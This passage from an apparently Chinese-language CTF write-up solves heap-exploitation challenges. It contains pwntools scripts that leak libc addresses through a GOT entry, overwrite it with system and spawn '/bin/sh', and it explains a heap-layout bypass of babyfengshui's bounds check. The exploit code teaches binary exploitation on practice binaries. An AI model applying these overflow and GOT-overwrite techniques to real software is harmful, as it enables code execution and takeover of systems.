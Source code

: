 ```python
#payload=p64(0)*2+p64(0x40)+p64(elf.got['atoi'])
Edit(0,len(payload),payload)
Show()#leak

#gdb.attach(r)
atoi_addr = u64(r.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
print hex(atoi_addr)
libc_base=atoi_addr-libc.sym['atoi']
system_addr=libc_base+libc.sym['system']

Edit(0,0x8,p64(system_addr))
r.recvuntil(":")
r.sendline('/bin/sh\x00')
r.interactive()

```
[https://n0vice.top/2020/03/06/unlink%E5%AD%A6%E4%B9%A0/index.html](https://n0vice.top/2020/03/06/unlink%E5%AD%A6%E4%B9%A0/index.html)
膜拜N神

## babyfengshui_33c3_2016
结构体
```c
struct user{
	char *desc;
	char name[7c];
	}user;
```
漏洞出现在update函数的检查机制
```c
if ( (char *)(v3 + *(_DWORD *)ptr[a1]) >= (char *)ptr[a1] - 4 )
    {
      puts("my l33t defenses cannot be fooled, cya!");
      exit(1);
    }
即description堆和name堆地址相减，与输入的长度比较
但是这种检查机制是建立在description堆和name堆相邻的情况下，如果把这两个堆分开，那么就可以绕过检查机制，从而进行堆溢出
```
思路：先创建两个user，在第三个user内容添加/bin/sh，然后释放第一个user，这个时候在创建一个user，因为我们可以自定义user中的description的大小，所以我们在这个user中申请一个0x100的description，根据堆的分配规则，这个user的description将会配分到被释放的第一个user中，看一下堆的布局

**申请三个user堆的布局**
description0 (0x80) | name0 (0x80) | description1(0x80) | name1(0x80) | description2(0x80) | name2 (0x80)

**释放第一个user，在创建一个0x100的description的user**
释放掉的user两个0x80合并成一块0x100的空闲空间，当我们申请一块0x100的description堆时，刚好被分配在这里
description3 (0x100) | description1(0x80) | name1(0x80) | description2(0x80) | name2 (0x80) | description3(0x80)

绕过检测机制之后就可以进行堆溢出，修改description1的内容为free_got，这样我们打印内容，就可以泄露出free_got地址，然后计算libc的偏移，最后把free_got改成system_got，在释放第三个user就相当于system(/bin/sh)
```python
#!coding: utf-8
from pwn import *
from LibcSearcher import *

#r=remote('node3.buuoj.cn',27050)
r=process('./babyfengshui_33c3_2016')
elf=ELF('./babyfengshui_33c3_2016')

def Add(size,name,length,text):
        r.sendlineafter('Action: ','0')
        r.sendlineafter('size of description: ',str(size))
        r.sendlineafter('name:',str(name))
```